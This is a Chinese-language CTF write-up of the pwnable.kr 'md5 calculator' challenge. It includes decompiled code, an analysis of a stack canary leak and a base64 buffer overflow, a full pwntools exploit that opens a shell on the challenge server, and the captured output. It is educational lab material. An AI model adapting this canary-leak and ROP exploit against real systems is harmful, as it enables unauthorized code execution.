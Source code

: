 ```yaml
---
title: pwnable.kr-md5 calculator
date: 2018-02-25 17:37:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
也是一个很有pwn味道的题目，涉及的知识在掌握范围内所以做起来很爽！
# 分析
题目只给了可执行文件`hash`。于是就放到`ida`中逆向了。
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax@1
  int v5; // [sp+18h] [bp-8h]@1
  int v6; // [sp+1Ch] [bp-4h]@1

  setvbuf(stdout, 0, 1, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("- Welcome to the free MD5 calculating service -");
  v3 = time(0);
  srand(v3);
  v6 = my_hash();
  printf("Are you human? input captcha : %d\n", v6);
  __isoc99_scanf("%d", &v5);
  if ( v6 != v5 )
  {
    puts("wrong captcha!");
    exit(0);
  }
  puts("Welcome! you are authenticated.");
  puts("Encode your data with BASE64 then paste me!");
  process_hash();
  puts("Thank you for using our service.");
  system("echo `date` >> log");
  return 0;
}
```
```c
int my_hash()
{
  int result; // eax@4
  int v1; // edx@4
  signed int i; // [sp+0h] [bp-38h]@1
  char v3[32]; // [sp+Ch] [bp-2Ch]@2
  int v4; // [sp+10h] [bp-28h]@4
  int v5; // [sp+14h] [bp-24h]@4
  int v6; // [sp+18h] [bp-20h]@4
  int v7; // [sp+1Ch] [bp-1Ch]@4
  int v8; // [sp+20h] [bp-18h]@4
  int v9; // [sp+24h] [bp-14h]@4
  int v10; // [sp+28h] [bp-10h]@4
  int v11; // [sp+2Ch] [bp-Ch]@1

  v11 = *MK_FP(__GS__, 20);
  for ( i = 0; i <= 7; ++i )
    *(_DWORD *)&v3[4 * i] = rand();
  result = v7 - v9 + v10 + v11 + v5 - v6 + v4 + v8;
  v1 = *MK_FP(__GS__, 20) ^ v11;
  return result;
}
```
```c
int process_hash()
{
  int v0; // ST14_4@3
  char *ptr; // ST18_4@3
  char v3; // [sp+1Ch] [bp-20Ch]@1
  int v4; // [sp+21Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  memset(&v3, 0, 0x200u);
  while ( getchar() != 10 )
    ;
  memset(g_buf, 0, sizeof(g_buf));
  fgets(g_buf, 1024, stdin);
  memset(&v3, 0, 0x200u);
  v0 = Base64Decode(g_buf, (int)&v3);
  ptr = calc_md5((int)&v3, v0);
  printf("MD5(data) : %s\n", ptr);
  free(ptr);
  return *MK_FP(__GS__, 20) ^ v4;
}
```
```c
int __cdecl Base64Decode(const char *a1, int a2)
{
  signed int v2; // ST2C_4@1
  FILE *stream; // ST34_4@1
  int v4; // eax@1
  int v5; // ST38_4@1
  int v6; // eax@1
  int v7; // ST3C_4@1

  v2 = calcDecodeLength(a1);
  stream = (FILE *)fmemopen((int)a1, strlen(a1), (int)&unk_8049272);
  v4 = BIO_f_base64();
  v5 = BIO_new(v4);
  v6 = BIO_new_fp(stream, 0);
  v7 = BIO_push(v5, v6);
  BIO_set_flags(v7, 256);
  *(_BYTE *)(a2 + BIO_read(v7, a2, strlen(a1))) = 0;// overflow
  BIO_free_all(v7);
  fclose(stream);
  return v2;
}
```
贴出来了最关键的几个函数。通过ida反编译的代码还是很容易理清程序逻辑的，其中可以发现两处漏洞。
- `my_hash`函数中使用的变量`v11`其实是`stack canary`。
- `Base64Decode`函数会把`a1`地址处的字符串base64解码，然后会把解码后的数据复制到`a2`所指示的缓冲区内，这里由于最大复制长度使用`strlen(a1)`而不是`a2`的长度导致溢出。

程序的保护如下
```bash
root@1:~/桌面/test$ checksec hash
[*] '/home/root/\xe6\xa1\x8c\xe9\x9d\xa2/test/hash'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
由于是栈溢出漏洞，只要通过`my_hash`函数的漏洞leak出`canary`就可以getshell。在`my_hash`中调用了`rand`函数，只要随机种子一样那么就可以预测任意一次的随机值，另外`time(0)`函数返回的时间是以秒为单位的，所以完全可以获得种子。
接下来就可以栈溢出覆盖返回地址了。`system`的地址可以使用它的plt地址，那`/bin/sh`地址呢？这里可以让程序溢出时重新跳入`process_hash`函数然后输入该字符串，把该字符串存储在数据段，由于数据段地址不变所以可以这样利用。
整理下利用思路：
1. 在连接题目时本地同样以`time`函数设置随机种子，获得随机序列并计算`canary`
2. 布置栈空间，使程序溢出时执行`process_hash`函数并向数据段写入`/bin/sh`

下面是exp
```python
import ctypes
import base64
from pwn import *

def work(DEBUG):
    context(arch='i386',os='linux',log_level='info')
    ll = ctypes.cdll.LoadLibrary
    lib = ll('libc.so.6')
    system_plt = 0x08048880
    process_hash_addr = 0x08048f92
    data_var = 0x0804b0e0
    
    if DEBUG:
        r = process('./hash')
    else:
        r = remote('pwnable.kr',9002)
        
    lib.srand(lib.time(0))
    # my_hash
    v3 = lib.rand()
    v4 = lib.rand()
    v5 = lib.rand()
    v6 = lib.rand()
    v7 = lib.rand()
    v8 = lib.rand()
    v9 = lib.rand()
    v10 = lib.rand()
    
    r.recvuntil(' : ')
    rel = int(r.recvuntil('\n'))
    canary = rel-v7+v9-v10-v5+v6-v4-v8
    canary &= 0xffffffff  
    
    payload = 'a'*0x200 #junk code
    payload += p32(canary)+'a'*12
    payload += p32(process_hash_addr)+p32(system_plt)#ret addr
    payload += 'a'*4+p32(data_var)
    payload = base64.b64encode(payload)
    
    r.sendline(str(rel))
    r.recvuntil('me!\n')
    r.sendline(payload+'\n')
    r.recvuntil('\n')
    r.sendline('/bin/sh')
    r.recvuntil('\n')
    r.interactive()
    

work(False)
```
```bash
root@1:~/桌面/test$ python 1.py
[+] Opening connection to pwnable.kr on port 9002: Done
[*] Switching to interactive mode
$ ls
flag
log
log2
md5calculator
super.pl
$ cat flag
Canary, Stack guard, Stack protector.. what is the correct expression?
$  
```
要注意的是，如果网速太差就会导致`canary`计算错误，解决办法是将exp上传到题目服务器本地执行（看题目提示）
# 总结
`stack canary`能很好的防止栈溢出，但是程序的其他地方如果能够泄漏`canary`还是没卵用。